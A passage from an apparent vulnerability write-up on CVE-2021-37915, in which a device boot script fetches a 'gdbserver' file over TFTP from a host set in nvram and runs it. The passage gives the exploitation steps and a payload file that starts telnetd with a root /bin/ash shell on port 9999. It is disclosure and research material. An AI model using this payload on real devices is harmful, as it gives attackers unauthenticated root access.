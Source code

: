 ```
    get netmask      -- Get WAN network mask setting
    get gw           -- Get WAN default gateway setting
    unset name       -- Unset a variable
    commit           -- Commit the changes to FLASH
    security         -- Write security table or verify
    help             -- Show this help text
    exit             -- Exit this command shell


```

CVE-2021-37915
--------------

There are multiple shell scripts inside the /bin folder which are executed upon boot. One of them is the "ht_start.sh" script. It contains the following snippet:

```
 1#
 2# Start gs_ata
 3#
 4if [ ! -z "`nvram get gdb_debug_server`" ]; then
 5    GDB_SERVER_IP=`nvram get gdb_debug_server`
 6    GDB_SERVER_PORT=9876
 7    cd /tmp/
 8    tftp -g -r gdbserver ${GDB_SERVER_IP}
 9    if [ -f ./gdbserver ]; then
10        chmod +x gdbserver
11        echo "Starting gs_ata with GDB support @ ${GDB_SERVER_IP}:${GDB_SERVER_PORT}"
12        ./gdbserver ${GDB_SERVER_IP}:${GDB_SERVER_PORT} /app/bin/gs_ata &
13    fi
14else
15    echo "Starting gs_ata..."
16    /app/bin/gs_ata &
17    echo $! > /var/run/gs_ata.pid
18fi


```

Essentially, if a "gdb_debug_server" value is set (4), the script tries to download a "gdbserver" file from the specified host via TFTP (8) and executes it (13). By setting the value to an IP address of a malicious TFTP server and then rebooting the device - we can gain Remote Code Execution (RCE) as root upon device boot.

On our box we have to setup a TFTP server and create a file:

```
$ cat /srv/tftp/gdbserver
telnetd -l /bin/ash -p 9999 &


```
